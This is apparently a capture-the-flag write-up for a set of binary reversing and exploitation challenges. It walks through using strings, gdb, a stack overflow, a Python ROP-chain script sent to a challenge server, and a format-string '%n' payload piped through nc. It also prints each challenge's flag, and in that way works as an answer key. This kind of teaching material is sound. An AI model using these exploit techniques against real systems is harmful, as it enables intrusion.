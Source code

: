 # BE01
```
Download the file at https://ggcs-files.allyourbases.co/be01.zip and find a way to get the flag from the program.
```
Simply running strings on the file will get us our flag!
![Simple strings](/images/BE01.png)

Flag: sTriNGS-r-EZ-7819

# BE02
```
Download the file at https://ggcs-files.allyourbases.co/be02.zip and find out what the program does to get the flag.
```
We are given some c code, so we can compile this all with `gcc`. Command used is:`gcc program.c -o program`.
And then simply running the generated ELF gives us the flag.
![Using gcc](/images/BE02.png)

Flag: c0mpILE-tIME_1822

# BM01
```
Download the file at https://ggcs-files.allyourbases.co/bm01.zip and figure out how to exploit the program.

Once you obtain the placeholder flag through exploitation prove your work by sending the same exploit to the network service at ggcs-bm01.allyourbases.co port 8134 to get the flag.
```

We can use `gdb program` to figure out what the program is doing.
We use `info func` to view functions, and `disas main` to see the assembly.
There is an interesting line which is
```
0x000006d6 <+153>:   cmp    BYTE PTR [ebp-0x9],0x62
```
This compares the byte at `ebp-0x9` with `0x62`, which is "b".
After a bit of experimentation, I was able to get the sample flag on local by adding 50 * "a" and then adding a "b" on the end.
We can do the same on the remote to get the flag.

# BH01
```
Download the file at https://ggcs-files.allyourbases.co/bh01.zip and find a way to extract the flag.

Note that the flag must be submitted as 'normal' text which you might read in a book.
```
If we open the file up in a hex editor, we see the word flag, but there doesn't appear to be anything after it at first.
However, by accident, I figured that if you try copy the hex into a text file, it appears to be some text in English, however it was upside down.
We convert this to normal English, keeping the capitalization to get the flag.

Flag: inSIDEoUT

# BH02
```
Download the files at https://ggcs-files.allyourbases.co/bh02.zip and figure out how to exploit the program.

Once you obtain the placeholder flag through exploitation prove your work by sending the same exploit to the network service at ggcs-bh02.allyourbases.co port 8133 to get the flag.
```
Again, we open this up in `gdb`
We can see again, there is that line that compares bytes.
```
   0x00000744 <+215>:   cmp    BYTE PTR [ebp-0x9],0x66
```
0x66 is "f" in ASCII, but I wasn't able to get the placeholder flag, so I looked again.
It appears that we also need to add a ":)" before our f

# BH03
```
Access the network service at ggcs-bh03.allyourbases.co port 1337 and follow the instructions it gives you to obtain the flag.
```
When we connect with `nc ggcs-bh03.allyourbases.co 1337`, we can see it wants us to call 3 functions.
This is a simple ROPchain task, where we overwrite the EIP register 3 times. 
To call the functions, we need padding so that we can overwrite things, and then we include the addresses of the functions.
I wrote a script to do this for me.
```
import socket
import struct
p32 = lambda x : struct.pack('I', x)
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('ggcs-bh03.allyourbases.co', 1337))
print(s.recv(1024))
a = s.recv(1024)
b = a.split("\n")
x = int((b[4].split(": "))[1],16)
y = int((b[3].split(": "))[1],16)
z = int((b[2].split(": "))[1],16)
payload = "A" * 45 + p32(x) + p32(y) + p32(z) + "\n"
print(payload)
s.send(payload)
print(s.recv(1024))
print(s.recv(1024))
print(s.recv(1024))
```
Running the script gives us 3 strings.
```
PTi0xOTkw
UVE9mdW5jVGl
RmxhZzogUmV
```
If we put these in reverse order and base64 decode, we get the flag.

Flag: ReTTOfuncTiON-1990

# BX01
```
Access the network service at ggcs-bx01.allyourbases.co port 9171 and find a way to exploit it to get the flag.
```
For this challenge, we need to get the value from 1337 to 1. 
We can do this with a format string, specifically `%n`
Doing it once on the remote by sending `a%n` gives us the output
```
Object validated, contents is 'Rig'
```
So we just need to do this multiple times to get the flag.
The number ended up being 14 times.
```
python -c "print 'A'+'%n'*14" | nc ggcs-bx01.allyourbases.co 9171
```

Flag: tRUNkated-EveRYTHinG-6761
